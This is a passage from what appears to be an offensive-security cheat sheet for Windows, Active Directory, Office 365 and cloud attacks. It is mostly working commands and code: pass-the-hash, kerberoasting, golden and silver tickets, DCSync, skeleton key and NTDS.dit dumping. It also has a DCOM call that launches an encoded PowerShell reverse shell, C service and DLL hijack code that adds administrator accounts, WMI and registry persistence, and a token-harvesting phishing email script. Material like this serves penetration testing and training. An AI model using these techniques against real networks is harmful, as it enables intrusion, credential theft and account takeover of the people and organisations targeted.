rem create a firewall rule to open port 2222 on a compromised host
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
```


</details>

<details>
<summary>sshuttle</summary>
leverage a forwarded port to provide transparent access to an internal network (as if connected to a VPN)

``` bash
# forward port 2222 on the compromised host to port 22 on 10.4.50.215
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22

# on the attacking machine, configure sshuttle to use the forwarded port with the provided subnets
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24

# on the attacking machine, connect to a host as if connected to a VPN 
smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
</details>

<details>
<summary> windows - living off the land </summary>

``` bat
rem using ping, scan a network range for live hosts (from 1-254)
for /l %i in (1,1,254) do @ping 192.168.1.%i -w 10 -n 1 | find "Reply"

rem powershell one-liner to scan a host for open ports
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("192.168.50.151", $_)) "TCP port $_ is open"} 2>$null

rem enable clientside WinRM components (enabled by default on windows serverside, but not on clients)
Enable-PSRemoting

rem enable CredSSP
winrm set winrm/config/client/auth '@{CredSSP ="true"}'

rem trust any host
Set-Item WSMan:localhost\client\trustedhosts -value *
```
</details>

<details>
<summary> Permission Delegation </summary>

``` powershell
# if a compromised user account has "genericwrite" for a group (found using bloodhound), then they can add themselves to that group
Add-ADGroupMember "IT Support" -Members "username"

# verify that it worked 
Get-ADGroupMember -Identity "IT Support"

# force the DC sync
gpupdate /force

# if the compromised account has inherited the ForceChangePassword Permission Delegation, we can change a group member's password
$Password = ConvertTo-SecureString "newpassword" -AsPlainText -Force 
Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password 
```
</details>

<details>
<summary> get SAM hive (local accounts) </summary>

``` bat
rem get SAM hive
reg save HKLM\SAM C:\SAM.hive

rem get the key for decrypting SAM
reg save HKLM\SYSTEM C:\SYSTEM
```
``` bash
# exfil the above files back to attcker machine, and dump the hashes
secretsdump.py -ntds ~/sam.hive -system ~/system -outputfile hashes.txt LOCAL
```
</details>

<details>
<summary> pass-the-hash (NTLM) </summary>

PtH requires SMB (port 445) access, Windows File and Printer Sharing enabled, and the ADMIN$ share to be available. Attackers must have valid local admin credentials to move laterally.

1. Obtain NT hashes from SAM or ntds.dit
2. Use the hashes themselves to authenticate

tools that support PTH:
- PsExec from Metasploit
- Passing-the-hash toolkit
- Impacket

example usage: 
``` bash
impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```

</details>

<details>
<summary>overpass the hash</summary>

this technique essentially abuses an NTLM user hash to gain a full Kerberos Ticket Granting Ticket (TGT). Then we can use the TGT to obtain a Ticket Granting Service (TGS).

with a user's hash, we can start a powershell session as the user and obtain a TGT 
``` bat
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```

This will spawn a new powershell session 

```powershell
# note running whoami will not show the new user, this is to be expected. Also, no TGT has been obtained yet
klist

# to get a TGT, authenticate to a network share
net use \\files04

# now, a TGT has been granted for the jen user
klist
```

the official PsExec application cannot use password hashes, but with a valid Kerberos TGT, it can be reused for remote code execution on a target host.

``` powershell
.\PsExec.exe \\files04 cmd
```
</details>

<details>
<summary> sniffing (NetNTLMv2 challenge/reponse) </summary>

1. start a fake SMB server
2. coerce NTLMv2 authentication (ip based) or wait for authentication (vuln scanners), or embedding a remote picture (hosted on your smb shared) in a word document
3. challenge the client, record response 

#### responder
``` bash
# assuming the attacker is on the same network as the target, Responder can resolve any LLMNR requests and capture NTLMv2 hashes.
sudo Responder.py -I eth0

# once running, once the victim attempts to connect to a system (via SMB)that does not exist, responder will posion the resolution of the host, and capture the hash. 

# once the hash is obtained, the hash can be cracked with hashcat
hashcat -m 5600 /tools/responder/logs/* /usr/share/rockyou.txt
```
#### pcap
``` bash
# start listener on port 445 on attacker machine 
sudo tcpdump -nv -w winauth.pcap port 445

# extract hashes from pcap
sudo /pcredz/pcredz -vf winauth.pcap

# crack NTLMv2 challenge/response
hashcat -m 5600 /pcredz/logs/NTLMv2.txt passwords.txt 
```
</details>

<details>
<summary> kerberoast </summary>

A service ticket is encrypted using the SPN's password hash. If we can request the ticket and decrypt it using brute force or guessing, we can use this information to crack the cleartext password of the service account.

Note, if we control an account with GenericWrite or GenericAll permissions on another AD user account, we could reset their passwords, but this would lock out the user from accessing the account. We could also leverage these permissions to set an SPN for the user, kerberoast the account, and crack the password hash in an attack named targeted Kerberoasting.

``` bash
# find user accounts (not computer accounts) who have registered SPNs (or get them from bloodhound)
GetUserSPNs.py domain.com/username:password -request -dc-ip 10.120.2.59 > spns.txt

# NOTE: If impacket-GetUserSPNs throws the error "KRB_AP_ERR_SKEW(Clock skew too great)," we need to synchronize the time of the Kali machine with the domain controller. We can use ntpdate or rdate to do so.

# extract just the TGS tickets from the GetUserSPNs output
grep krb5tgs spns.txt > tgs.txt

# GetUserSPNs will provide the TGS ticket, which can be cracked with hashcat (in this case prepend password guesses with a single digit)
hashcat -m 13100 -a 7 tgs.txt ?d rockyou.txt
```

same thing with rubeus

``` bat
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

</details>

<details>
<summary>AS-REP Roasting</summary>

Identify accounts with "Do not require Kerberos preauthentication" setting so that we can send an AS-REQ as the user, obtain the AS-REP, and crack their password offline.

Note, if we control an account with GenericWrite or GenericAll permissions on another AD user account, we could reset their passwords, but this would lock out the user from accessing the account. We could also leverage these permissions to modify the User Account Control value of the user to not require Kerberos preauthentication in order to perform AS-REP Roasting. This attack is known as Targeted AS-REP Roasting. 

``` bash
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/user:password

sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

same thing using rubeus

``` bat
.\Rubeus.exe asreproast /nowrap
```

</details>

<details>
<summary> pass-the-ticket (kerberos) </summary>

``` bash
# all we're doing here, is stealing a user's TGT and using it on the compromised user's machine running mimikatz, list TGT ticket
kerberos::tgt

# export the TGT ticket
kerberos::list /export

# on new system, load the stolen TGT ticket
kerberos::ptt ticket.kirbi

# now, in the same cmd prompt, you can authenticate to services as the compromised user
psexec \\dc01 cmd.exe
```

pulling tickets from memory:

``` bash
privilege::debug
sekurlsa::tickets /export

# inject the ticket 
kerberos::ptt dave@cifs-web04.kirbi

# confirm it got loaded 
klist

# use it
ls \\web04\backup
```

</details>

<details>
<summary>DCOM</summary>

Interaction with DCOM is performed over RPC on TCP port 135 and local administrator access is required to call the DCOM Service Control Manager, which is essentially an API.

``` powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73")) # change target IP 

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7") # base64 encoded powershell reverse shell 
```

</details>

## Persistence
- create a new user/password
- add attacker ssh public key to authorized_keys file
- create a scheduled task
- create a WMI event consumer
``` powershell
# create an event filter (trigger called) "Updater" which looks for failed logins (event ID 4625) from "fakeuser"
$filter = SetWmiInstance -Namespace root/subscription -Class __EventFilter -Arguments @{EventNamespace = 'root/cimv2'; Name = "UPDATER"; Query = "SELECT * FROM __InstanceCreationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_NTLogEvent' AND TargetInstance.EventCode = '4625' AND TargetInstance.Message LIKE '$fakeuser%'"; QueryLanguage = 'WQL'}

# setup the event consumer action (consumer)
$consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments @{Name = "UPDATER"; CommandLineTemplate = "C:\payload.exe"}

# setup the binding to look for the trigger and run the consumer
$FilterToConsumerBunding = Set-WmiInstance -NameSpace root/subscription -Class __FilterToConsumerBinding -Arguments @{Filter = $Filter; Consumer = $Consumer}
```
- add an executable/script to the windows startup folder
- registry keys
``` bat
rem these keys are often used for persistence
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
rem cmd autorun - when cmd loads, it looks for registry variables to execute first
HKCU\SOFTWARE\Microsoft\Command Processor\AutoRun
rem HKCU Load - not used in modern windows but still supported
HKCU\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows

rem example of adding a user registry key called "AppUpdateMon" which runs a malicious binary each time the user logs in
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "AppUpdateMon" /t REG_SZ /F /D "C:\payload.exe"
```


## Privilege Escalation

<details>
<summary><b>Linux</b></summary>

1. [GTFOBins](https://gtfobins.github.io/)  
2. [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)  
3. Cheatsheets: 

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

- https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html

4. container escape

``` bash
# check if you are in a container
cat /proc/mounts

# check for excessive capabilities
cat /proc/1/status | grep Cap

# decode the capabilities
capsh --decode=0000003fffffffff

# The presence of cap_net_admin and cap_sys_admin indicates that this container is either running in a privileged context or, at the very least, with all capabilities added. 

```

</details>

<details>
<summary><b>Windows</b></summary>

<details>
<summary>LOLBAS</summary>
<a href="https://lolbas-project.github.io/#">https://lolbas-project.github.io/#</a>
</details>

<details>
<summary>UAC Bypass</summary>
<a href="https://github.com/hfiref0x/UACME">https://github.com/hfiref0x/UACME</a>
</details>

<details>
<summary> Automated Checks </summary>

1. winpeas (https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)
2. powerup.ps1 (https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
3. seatbelt (https://github.com/GhostPack/Seatbelt)

</details>

<details>
<summary>scheduled tasks</summary>

this is simmilar to service binary hijacking. If you have the proper permissions on an executable for a scheduled task, you can hijack it and its permissions. 

``` bat
rem query scheduled tasks, look for non-system tasks
schtasks /query /fo LIST /v
```
</details>

<details>
<summary> Unquoted Service Paths </summary>

an unquoted service path search might look like this 
1. C:\Program.exe
2. C:\Program Files\Enterprise.exe
3. C:\Program Files\Enterprise Apps\Current.exe
4. C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe

``` bat
rem find unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

rem List of services with binary path
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```
if you can find a service path which you have the proper permissions to write to, you can add a malicious binary with the proper name in order to hijack service execution. 

</details>

<details>
<summary> Service Binary Hijacking </summary>
overwrite a service executable with our own

``` bat
rem List services with binary path
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

rem check permissioms of a service binary
icacls "C:\xampp\mysql\bin\mysqld.exe"
```
next, create a new binary on the attacker machine as `service.c`. You can also use msfvenom or other payload providers. 
``` c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
now, we can cross compile it and put it on the victim machine and restart the service. 

``` bash
x86_64-w64-mingw32-gcc service.c -o service.exe
```
</details>

<details>
<summary> DLL search order hijacking </summary>

The following listing shows the standard search order taken from Microsoft Documentation:
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

If you can identify a program that is missing a dll, or you find that you can insert one higher up in the order, you could force the application to attach to your malicious dll. 

Procmon will be useful to identify program missing dll's.

On your attacker machine, cross compile a malicious dll as `mal.cpp`

``` cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
now, cross compile
``` bash
x86_64-w64-mingw32-gcc mal.cpp --shared -o SharedLib.dll
```

</details>

<details>
<summary> group policy preferences file </summary>

msft publishes the [AES key](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be)
``` powershell
# find cpassword under the sysvol share in any xml file
Get-ChildItem -Path "$env:LOGONSERVER\sysvol" -Filter *.xml -Recurse | Select-String "cpassword"
```

``` bash
gpp-decrypt ENCRYPTED_PASSWORD
```

</details>

<details>
<summary>Recovering Credentials from a PXE Boot Image</summary>
</details>

<details>
<summary>always install elevated registry setting </summary>

``` bat
rem This will only work if both registry keys contain "AlwaysInstallElevated" with DWORD values of 1.
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```
</details>

<details>
<summary> unattended install files</summary>

``` powershell
# unattended install files typically in these locations
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\windows\sysprep\sysprep.inf
c:\windows\sysprep\sysprep.xml
c:\windows\system32sysprep\Unattended.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
```
</details>

<details>
<summary>Exploits</summary>

privileges that may lead to privilege escalation are SeBackupPrivilege, SeAssignPrimaryToken, SeLoadDriver, and SeDebug and SeImpersonatePrivilege.

check for kernel vulns from microsoft https://msrc.microsoft.com/update-guide

``` bat
rem look for user privileges 
whoami /priv
whoami /all

rem get system info and patch info 
systeminfo
Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }
```

</details>
</details>

## Domination

<details>
<summary> DCSync </summary>

The DRS Remote Protocol lets domain controllers replicate without verifying the request source, only the requester’s rights. Users with replication rights (Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes in Filtered Set) which are granted by default to Domain/Enterprise Admins and Administrators can launch a DCSync attack to impersonate a domain controller and extract credentials.

``` bat
rem using mimikatz, extract the krbtgt hash via replication using the Directory Replication Service Remote (DRSR) Protocol. In this case, you can retrieve any domain user, not just krbtgt
lsadump::dcsync /user:krbtgt
```

using impacket

``` bash
# impacket will use DRSUAPI, the Microsoft API implementing the Directory Replication Service Remote Protocol, in order to get NTDS.DIT secrets
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```

</details>

<details>
<summary> skeleton key </summary>

``` bat
rem using mimikatz, a skelton key can be loaded into memory on a domain controller that allows anyone to authenticate as any user in the domain with the password "mimikatz"
privilege::debug
misc::skeleton
```
</details>

<details>
<summary>volume shadow copy</summary>

As domain admins, we can abuse the vshadow utility to create a Shadow Copy that will allow us to extract the Active Directory Database NTDS.dit database file.

``` bat
rem take note of the shadow copy device name.
vshadow.exe -nw -p  C:

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak

rem we also need to grab the system hive 
reg.exe save hklm\system c:\system.bak
```

``` bash
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

</details>

<details>
<summary> extract ntds.dit oneliner </summary>

``` bat
ntdsutil "ac in ntds" "ifm" "cr fu c:\mybackup" q q
```
</details>

<details>
<summary> extract ntds.dit (to be used for golden ticket) </summary>

target machine (domain controller):
``` bat
rem as administrator on a domain controller, list shadow copies
vssadmin.exe list

rem if no existing copies, create one. 
vssadmin.exe create shadow /for=c:

rem copy the ntds.dit file from the shadoy copy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit c:\temp\ntds.dit

rem in order to extract hashes from ntds.dit you need the encryption key from the system hive. save the key from the registry:
reg save hklm\system c:\temp\system /y
```
attacker machine:
``` bash
# now, extract the ntds.dit and system files from the dc (use smbclient.py or whatever works). Once obtained, on the attacker machine, dump hashes
secretsdump.py -ntds ~/ntds.dit -system ~/system -outputfile hashes.txt LOCAL

# alternatively, you could do all of the above remotely using secretsdump.py. specifically here, were looking for the krbtgt hash
secretsdump.py domain.com/username:'password'@10.20.10.10 -just-dc-user krbtgt

# --------- with the above hashes, we can conduct the following golden ticket attack --------- #

# get the SID for the domain (stop lookup after enumerating to 520)
lookupsid.py domain.com/username:'password'@10.20.10.10 520

# armed with the domain SID and the krbtgt AES key, we can create a golen ticket
ticketer.py -domain domain.com -domain-sid S-1-5-21-XXXXXXXXX-YYYYYYYYY -aesKey AES_KEY_HERE Administrator

# export the ticket to later be used by impacket 
export KRB5CCNAME=Administrator.ccache

# use the ticket with impacket against a fileserver on the domain and run a command remotely
wmiexec.py -k -no-pass -dc-ip 10.20.10.10 file01.domain.com hostname
```
</details>

<details>
<summary>golden ticket (using mimikatz)</summary>

``` bash
# dump ntds.dit on the domain controller to get the krbtgt hash and domain SID
privilege::debug
lsadump::lsa /patch

# purge existsing tickets
kerberos::purge

# forge the ticket 
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt

# open a cmd window with the golden ticket
misc::cmd

# now, psexec can be used with the golden ticket to authenticate
PsExec.exe \\dc1 cmd.exe
```
</details>

<details>
<summary> silver ticket </summary>

Due to how tickets are constructed and validated, we can contruct our own valid ticket for a specific SPN if we have the following information:

1. Password or hash for the SPN's account
2. domain SID
3. The target SPN

``` bat
rem obtain the domain SID
lookupsid.py domain.com/username:'password'@10.20.10.10 520

rem in this case, we want to obtain the aes256 hash for a computer account (in this case file01$)
secretsdump.py domain.com/username:password@10.20.10.10 -just-dc-user file01$

rem using rubeus (could also use ticketer) generate the ticket for the SMB service on the fileserver
Rubeus.exe silver /service:cifs/file01.domain.com /aes256:HASH_G0ES_HERE /sid:S-1-5-21-XXXXXXX-YYYYYYYY-ZZZZZZZ /ptt /user:username

rem ensure the kerberos ticket has been loaded into local memory 
klist

rem now, try to access the server
dir \\file01.domain.com\c$

rem in this example, we can instead forge a ticket for a different "serviceclass" (we did cifs before) that lets us query the target's event logs using an arbitrary username and user id
Rubeus.exe silver /service:host/file01.domain.com /aes256:HASH_G0ES_HERE /sid:S-1-5-21-XXXXXXX-YYYYYYYY-ZZZZZZZ /ptt /user:anything /id:777

rem now query the event logs
wevutil /r:file01.domain.com qe Security "/q:*[System/EventID=4624] and *[EventData/Data[@Name='TargetUserName'='anything']" /f:text /c:1
```

using mimikatz:

```bat
rem dump password hashes 
privilege::debug
sekurlsa::logonpasswords

rem obtain SID
whoami /user

rem forge the ticket
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

rem confirm ticket has been loaded into memory 
exit
klist 

rem confirm access to service
iwr -UseDefaultCredentials http://web04
```

</details>

## Microsoft O365
<details>
<summary> AADInternals </summary>

``` powershell
# conduct azure recon on given domain name
Invoke-AADIntReconAsOutsider -DomainName domain.com | Format-Table

# pass list of users to verify valid usernames
Get-Content .\users.txt | Invoke-AADIntUserEnumerationAsOutsider -Method Normal

# Send a phishing email to recipients using customised message and save the tokens to cache
$message = 'Dear recipient, <br> Your Microsoft account has been compromised. Login at <a href="{1}">https://microsoft.com</a> to reset your password. <br> Use the following security code: <b>{0}</b>.' 
Invoke-AADIntPhishing -Recipients "wvictim@domain.com","wvictim2@domain.com" -Subject "Your Microsoft account is compromised - Actions required." -Sender "Johnny Carson <jc@somewhere.com>" -SMTPServer smtp.myserver.local -Message $message -SaveToCache

# open a user's mailbox using the tokens you just obtained from previous phishing
Open-AADIntOWA
```
</details>

<details>
<summary> Password Spraying Azure </summary>

``` bash
# use trevorspray to get the token endpoint
trevorspray --recon domain.com

# spray passwords against known users
trevorspray --users /tmp/users.txt --passwords /tmp/passwords.txt --url 'https://login.windows.net/TENANT-ID/oauth2/token'

```
</details>

<details>
<summary> GraphRunner </summary>

``` powershell
# obtain a devicelogin token to use in a phishing email
Get-GraphTokens

# check security groups using the auth tokens obtained from prior phishing attack
Get-SecurityGroups -Tokens $tokens

# identify dynamic security groups to possibly use for privelege escalation
Get-DynamicGroups -Tokens $tokens
```
</details>

## Cloud
<details>
<summary> cloud_enum </summary>

``` bash
# scan an aws cloud bucket that you know the name of
cloud_enum -k lab-assets-dev-axevtewi --quickscan --disable-azure --disable-gcp
```
</details>

<details>
<summary> cli </summary>

the attacker will need an account with the CSP (cloud service provider) in order to interact via cli. the cli can be powerful 

``` bash
# use aws cli to search for public resources
aws configure --profile your_profile

# confirm logged in 
aws --profile your_profile sts get-caller-identity

# look for public EC2's, filtering on description
aws --profile attacker ec2 describe-images --executable-users all --filters "Name=description,Values=*CompanyName*"

#same as above, filtering on name
aws --profile attacker ec2 describe-images --executable-users all --filters "Name=name,Values=*ComapnyName*"
```
</details>

<details>
<summary> pacu </summary>

``` bash
# start an interactive shell 
pacu

# import a previously authenticated profile
import_keys attacker

# list modules
ls

# see more information on a module
help iam__enum_roles

# brut force valid IAM roles in a target account 
run iam__enum_roles --word-list /tmp/role-names.txt --account-id 123456789012
```
</details>